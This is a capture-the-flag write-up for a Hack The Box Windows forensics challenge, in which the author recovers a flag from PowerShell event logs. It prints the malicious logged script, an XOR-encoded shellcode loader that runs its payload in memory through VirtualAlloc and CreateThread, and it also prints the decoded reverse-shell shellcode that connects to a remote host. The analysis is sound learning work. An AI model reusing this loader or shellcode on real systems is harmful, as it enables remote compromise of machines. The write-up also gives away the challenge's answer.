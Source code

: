 # Puppeteer
### forensics | 300 points | 787 solves

## Description
Planet Longhir is known for it's top-tier researchers. Due to their dedication in science and engineering, their military equipment is the most advanced one in the galaxy. In fact, the prototype DES-3000. a self-propelled precision-strike missile that is capable of reaching targets even in Ratnik galaxy, is being used to disable Galactic Federation's communication satellites. The mystery that Miyuki is trying to solve is, how the satellite's location was leaked since it is a top-sercret that only Galactic Federation's council is aware of. Help her analyse the Council's HQ event logs and solve this mystery.

## First Impressions
We were provided with a zip file, containing a folder called Logs. 

![](images/puppeteer-logs.png)

These logs have a file extension of `.evtx`, which is a log file created in windows to record events on the system. I searched for the flag directly using `grep`, but looks like this challenge is a little more complicated than that.

## Solution

Being new to Windows forensics, I made two attempts at this challenge. The first one was to use a python script called `evtx_dump.py` that, as the name suggests, dumps the contents of the log file in XML format. I tried looking for stuff through this but quickly got overwhelmed with the amount of information in the logs. I figured I would need to look for interesting files to look into or a similar CTF challenge online.

And that's what I did. I luckily found a solution to a very similar challenge (also from Hack the Box!) called [Event Horizon](https://josh-vr.medium.com/hackthebox-event-horizon-forensics-challenge-writeup-b32839a3307d), written by Josh. The writeup provides a good introduction to Event Logs and the different log files that could have some information.

Based on the writeup, I checked the `Microsoft-Windows-PowerShell%4Operational.evtx` file in the Event Viewer. Looking through the logs, I found a long script, with this particular part standing out.

![](images/puppeteer-script.png)

```powershell
$OleSPrlmhB = @"
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
"@

[byte[]] $stage1 = 0x99, 0x85, 0x93, 0xaa, 0xb3, 0xe2, 0xa6, 0xb9, 0xe5, 0xa3, 0xe2, 0x8e, 0xe1, 0xb7, 0x8e, 0xa5, 0xb9, 0xe2, 0x8e, 0xb3;
[byte[]] $stage2 = 0xac, 0xff, 0xff, 0xff, 0xe2, 0xb2, 0xe0, 0xa5, 0xa2, 0xa4, 0xbb, 0x8e, 0xb7, 0xe1, 0x8e, 0xe4, 0xa5, 0xe1, 0xe1;

$tNZvQCljVk = Add-Type -memberDefinition $OleSPrlmhB -Name "Win32" -namespace Win32Functions -passthru;

[Byte[]] $HVOASfFuNSxRXR = 0x2d,0x99,0x52,0x35,0x21,0x39,0x1d,0xd1,0xd1,0xd1,0x90,0x80,0x90,0x81,0x83,0x99,0xe0,0x03,0xb4,0x99,0x5a,0x83,0xb1,0x99,0x5a,0x83,0xc9,0x80,0x87,0x99,0x5a,0x83,0xf1,0x99,0xde,0x66,0x9b,0x9b,0x9c,0xe0,0x18,0x99,0x5a,0xa3,0x81,0x99,0xe0,0x11,0x7d,0xed,0xb0,0xad,0xd3,0xfd,0xf1,0x90,0x10,0x18,0xdc,0x90,0xd0,0x10,0x33,0x3c,0x83,0x99,0x5a,0x83,0xf1,0x90,0x80,0x5a,0x93,0xed,0x99,0xd0,0x01,0xb7,0x50,0xa9,0xc9,0xda,0xd3,0xde,0x54,0xa3,0xd1,0xd1,0xd1,0x5a,0x51,0x59,0xd1,0xd1,0xd1,0x99,0x54,0x11,0xa5,0xb6,0x99,0xd0,0x01,0x5a,0x99,0xc9,0x81,0x95,0x5a,0x91,0xf1,0x98,0xd0,0x01,0x32,0x87,0x99,0x2e,0x18,0x9c,0xe0,0x18,0x90,0x5a,0xe5,0x59,0x99,0xd0,0x07,0x99,0xe0,0x11,0x90,0x10,0x18,0xdc,0x7d,0x90,0xd0,0x10,0xe9,0x31,0xa4,0x20,0x9d,0xd2,0x9d,0xf5,0xd9,0x94,0xe8,0x00,0xa4,0x09,0x89,0x95,0x5a,0x91,0xf5,0x98,0xd0,0x01,0xb7,0x90,0x5a,0xdd,0x99,0x95,0x5a,0x91,0xcd,0x98,0xd0,0x01,0x90,0x5a,0xd5,0x59,0x90,0x89,0x90,0x89,0x8f,0x88,0x99,0xd0,0x01,0x8b,0x90,0x89,0x90,0x88,0x90,0x8b,0x99,0x52,0x3d,0xf1,0x90,0x83,0x2e,0x31,0x89,0x90,0x88,0x8b,0x99,0x5a,0xc3,0x38,0x9a,0x2e,0x2e,0x2e,0x8c,0x98,0x6f,0xa6,0xa2,0xe3,0x8e,0xe2,0xe3,0xd1,0xd1,0x90,0x87,0x98,0x58,0x37,0x99,0x50,0x3d,0x71,0xd0,0xd1,0xd1,0x98,0x58,0x34,0x98,0x6d,0xd3,0xd1,0xd4,0xe8,0x11,0x79,0xd1,0xc3,0x90,0x85,0x98,0x58,0x35,0x9d,0x58,0x20,0x90,0x6b,0x9d,0xa6,0xf7,0xd6,0x2e,0x04,0x9d,0x58,0x3b,0xb9,0xd0,0xd0,0xd1,0xd1,0x88,0x90,0x6b,0xf8,0x51,0xba,0xd1,0x2e,0x04,0xbb,0xdb,0x90,0x8f,0x81,0x81,0x9c,0xe0,0x18,0x9c,0xe0,0x11,0x99,0x2e,0x11,0x99,0x58,0x13,0x99,0x2e,0x11,0x99,0x58,0x10,0x90,0x6b,0x3b,0xde,0x0e,0x31,0x2e,0x04,0x99,0x58,0x16,0xbb,0xc1,0x90,0x89,0x9d,0x58,0x33,0x99,0x58,0x28,0x90,0x6b,0x48,0x74,0xa5,0xb0,0x2e,0x04,0x54,0x11,0xa5,0xdb,0x98,0x2e,0x1f,0xa4,0x34,0x39,0x42,0xd1,0xd1,0xd1,0x99,0x52,0x3d,0xc1,0x99,0x58,0x33,0x9c,0xe0,0x18,0xbb,0xd5,0x90,0x89,0x99,0x58,0x28,0x90,0x6b,0xd3,0x08,0x19,0x8e,0x2e,0x04,0x52,0x29,0xd1,0xaf,0x84,0x99,0x52,0x15,0xf1,0x8f,0x58,0x27,0xbb,0x91,0x90,0x88,0xb9,0xd1,0xc1,0xd1,0xd1,0x90,0x89,0x99,0x58,0x23,0x99,0xe0,0x18,0x90,0x6b,0x89,0x75,0x82,0x34,0x2e,0x04,0x99,0x58,0x12,0x98,0x58,0x16,0x9c,0xe0,0x18,0x98,0x58,0x21,0x99,0x58,0x0b,0x99,0x58,0x28,0x90,0x6b,0xd3,0x08,0x19,0x8e,0x2e,0x04,0x52,0x29,0xd1,0xac,0xf9,0x89,0x90,0x86,0x88,0xb9,0xd1,0x91,0xd1,0xd1,0x90,0x89,0xbb,0xd1,0x8b,0x90,0x6b,0xda,0xfe,0xde,0xe1,0x2e,0x04,0x86,0x88,0x90,0x6b,0xa4,0xbf,0x9c,0xb0,0x2e,0x04,0x98,0x2e,0x1f,0x38,0xed,0x2e,0x2e,0x2e,0x99,0xd0,0x12,0x99,0xf8,0x17,0x99,0x54,0x27,0xa4,0x65,0x90,0x2e,0x36,0x89,0xbb,0xd1,0x88,0x98,0x16,0x13,0x21,0x64,0x73,0x87,0x2e,0x04;

[array]::Reverse($stage2);

$hRffYLENA = $tNZvQCljVk::VirtualAlloc(0,[Math]::Max($HVOASfFuNSxRXR.Length,0x1000),0x3000,0x40);

$stage3 = $stage1 + $stage2;

[System.Runtime.InteropServices.Marshal]::Copy($HVOASfFuNSxRXR,0,$hRffYLENA,$HVOASfFuNSxRXR.Length);


# Unpack Shellcode;

for($i=0; $i -lt $HVOASfFuNSxRXR.count ; $i++)
{
    $HVOASfFuNSxRXR[$i] = $HVOASfFuNSxRXR[$i] -bxor 0xd1;
}

#Unpack Special Orders!

for($i=0;$i -lt $stage3.count;$i++){
    $stage3[$i] = $stage3[$i] -bxor 0xd1;
}
```

It seems like two arrays `stage1` and the reverse of `stage2` are combined and each character is XORed with the hex `0xd1` or 209 in decimal. As I'm not very familiar with running scripts in Powershell, I took the relevant parts from this script and made a similar script in Python. I wasn't sure if the `$HVOASfFuNSxRXR` array and the XOR operation on it was of any significance, but I added it to the script anyways.

#### [puppeteer-sol.py](src/puppeteer-sol.py)
```python
#!/usr/bin/env python3

stage1 = bytearray(b'\x99\x85\x93\xaa\xb3\xe2\xa6\xb9\xe5\xa3\xe2\x8e\xe1\xb7\x8e\xa5\xb9\xe2\x8e\xb3')
stage2 = bytearray(b'\xac\xff\xff\xff\xe2\xb2\xe0\xa5\xa2\xa4\xbb\x8e\xb7\xe1\x8e\xe4\xa5\xe1\xe1')

stage2.reverse()

something = bytearray(b'\x2d\x99\x52\x35\x21\x39\x1d\xd1\xd1\xd1\x90\x80\x90\x81\x83\x99\xe0\x03\xb4\x99\x5a\x83\xb1\x99\x5a\x83\xc9\x80\x87\x99\x5a\x83\xf1\x99\xde\x66\x9b\x9b\x9c\xe0\x18\x99\x5a\xa3\x81\x99\xe0\x11\x7d\xed\xb0\xad\xd3\xfd\xf1\x90\x10\x18\xdc\x90\xd0\x10\x33\x3c\x83\x99\x5a\x83\xf1\x90\x80\x5a\x93\xed\x99\xd0\x01\xb7\x50\xa9\xc9\xda\xd3\xde\x54\xa3\xd1\xd1\xd1\x5a\x51\x59\xd1\xd1\xd1\x99\x54\x11\xa5\xb6\x99\xd0\x01\x5a\x99\xc9\x81\x95\x5a\x91\xf1\x98\xd0\x01\x32\x87\x99\x2e\x18\x9c\xe0\x18\x90\x5a\xe5\x59\x99\xd0\x07\x99\xe0\x11\x90\x10\x18\xdc\x7d\x90\xd0\x10\xe9\x31\xa4\x20\x9d\xd2\x9d\xf5\xd9\x94\xe8\x00\xa4\x09\x89\x95\x5a\x91\xf5\x98\xd0\x01\xb7\x90\x5a\xdd\x99\x95\x5a\x91\xcd\x98\xd0\x01\x90\x5a\xd5\x59\x90\x89\x90\x89\x8f\x88\x99\xd0\x01\x8b\x90\x89\x90\x88\x90\x8b\x99\x52\x3d\xf1\x90\x83\x2e\x31\x89\x90\x88\x8b\x99\x5a\xc3\x38\x9a\x2e\x2e\x2e\x8c\x98\x6f\xa6\xa2\xe3\x8e\xe2\xe3\xd1\xd1\x90\x87\x98\x58\x37\x99\x50\x3d\x71\xd0\xd1\xd1\x98\x58\x34\x98\x6d\xd3\xd1\xd4\xe8\x11\x79\xd1\xc3\x90\x85\x98\x58\x35\x9d\x58\x20\x90\x6b\x9d\xa6\xf7\xd6\x2e\x04\x9d\x58\x3b\xb9\xd0\xd0\xd1\xd1\x88\x90\x6b\xf8\x51\xba\xd1\x2e\x04\xbb\xdb\x90\x8f\x81\x81\x9c\xe0\x18\x9c\xe0\x11\x99\x2e\x11\x99\x58\x13\x99\x2e\x11\x99\x58\x10\x90\x6b\x3b\xde\x0e\x31\x2e\x04\x99\x58\x16\xbb\xc1\x90\x89\x9d\x58\x33\x99\x58\x28\x90\x6b\x48\x74\xa5\xb0\x2e\x04\x54\x11\xa5\xdb\x98\x2e\x1f\xa4\x34\x39\x42\xd1\xd1\xd1\x99\x52\x3d\xc1\x99\x58\x33\x9c\xe0\x18\xbb\xd5\x90\x89\x99\x58\x28\x90\x6b\xd3\x08\x19\x8e\x2e\x04\x52\x29\xd1\xaf\x84\x99\x52\x15\xf1\x8f\x58\x27\xbb\x91\x90\x88\xb9\xd1\xc1\xd1\xd1\x90\x89\x99\x58\x23\x99\xe0\x18\x90\x6b\x89\x75\x82\x34\x2e\x04\x99\x58\x12\x98\x58\x16\x9c\xe0\x18\x98\x58\x21\x99\x58\x0b\x99\x58\x28\x90\x6b\xd3\x08\x19\x8e\x2e\x04\x52\x29\xd1\xac\xf9\x89\x90\x86\x88\xb9\xd1\x91\xd1\xd1\x90\x89\xbb\xd1\x8b\x90\x6b\xda\xfe\xde\xe1\x2e\x04\x86\x88\x90\x6b\xa4\xbf\x9c\xb0\x2e\x04\x98\x2e\x1f\x38\xed\x2e\x2e\x2e\x99\xd0\x12\x99\xf8\x17\x99\x54\x27\xa4\x65\x90\x2e\x36\x89\xbb\xd1\x88\x98\x16\x13\x21\x64\x73\x87\x2e\x04')

stage3 = bytearray(stage1 + stage2)

# Unpack Shellcode;
for i in range(len(something)):
	something[i] = something[i] ^ 0xd1;

#Unpack Special Orders!
for i in range(len(stage3)):
	stage3[i] = stage3[i] ^ 0xd1;
   
print(something)
print(stage3)
```

While the `something` array returned gibberish, `stage3` succesfully returns the flag for this challenge!

```bash
$ python3 puppeteer-sol.py
bytearray(b'\xfcH\x83\xe4\xf0\xe8\xcc\x00\x00\x00AQAPRH1\xd2eH\x8bR`H\x8bR\x18QVH\x8bR H\x0f\xb7JJM1\xc9H\x8brPH1\xc0\xac<a|\x02, A\xc1\xc9\rA\x01\xc1\xe2\xedRH\x8bR AQ\x8bB<H\x01\xd0f\x81x\x18\x0b\x02\x0f\x85r\x00\x00\x00\x8b\x80\x88\x00\x00\x00H\x85\xc0tgH\x01\xd0\x8bH\x18PD\x8b@ I\x01\xd0\xe3VH\xff\xc9M1\xc9A\x8b4\x88H\x01\xd6H1\xc0A\xc1\xc9\r\xacA\x01\xc18\xe0u\xf1L\x03L$\x08E9\xd1u\xd8XD\x8b@$I\x01\xd0fA\x8b\x0cHD\x8b@\x1cI\x01\xd0A\x8b\x04\x88AXAX^YH\x01\xd0ZAXAYAZH\x83\xec AR\xff\xe0XAYZH\x8b\x12\xe9K\xff\xff\xff]I\xbews2_32\x00\x00AVI\x89\xe6H\x81\xec\xa0\x01\x00\x00I\x89\xe5I\xbc\x02\x00\x059\xc0\xa8\x00\x12ATI\x89\xe4L\x89\xf1A\xbaLw&\x07\xff\xd5L\x89\xeah\x01\x01\x00\x00YA\xba)\x80k\x00\xff\xd5j\nA^PPM1\xc9M1\xc0H\xff\xc0H\x89\xc2H\xff\xc0H\x89\xc1A\xba\xea\x0f\xdf\xe0\xff\xd5H\x89\xc7j\x10AXL\x89\xe2H\x89\xf9A\xba\x99\xa5ta\xff\xd5\x85\xc0t\nI\xff\xceu\xe5\xe8\x93\x00\x00\x00H\x83\xec\x10H\x89\xe2M1\xc9j\x04AXH\x89\xf9A\xba\x02\xd9\xc8_\xff\xd5\x83\xf8\x00~UH\x83\xc4 ^\x89\xf6j@AYh\x00\x10\x00\x00AXH\x89\xf2H1\xc9A\xbaX\xa4S\xe5\xff\xd5H\x89\xc3I\x89\xc7M1\xc9I\x89\xf0H\x89\xdaH\x89\xf9A\xba\x02\xd9\xc8_\xff\xd5\x83\xf8\x00}(XAWYh\x00@\x00\x00AXj\x00ZA\xba\x0b/\x0f0\xff\xd5WYA\xbaunMa\xff\xd5I\xff\xce\xe9<\xff\xff\xffH\x01\xc3H)\xc6H\x85\xf6u\xb4A\xff\xe7Xj\x00YI\xc7\xc2\xf0\xb5\xa2V\xff\xd5')
bytearray(b'HTB{b3wh4r3_0f_th3_b00t5_0f_just1c3...}')
```

As of me typing this writeup after the challenge, I found [this article](https://www.sikich.com/insight/how-to-catch-powershell-script-attacks/) from Sikich that describes Powershell Script Attacks, including the scenario in this challenge in the Script Block Logging section.

Flag: `HTB{b3wh4r3_0f_th3_b00t5_0f_just1c3...}`
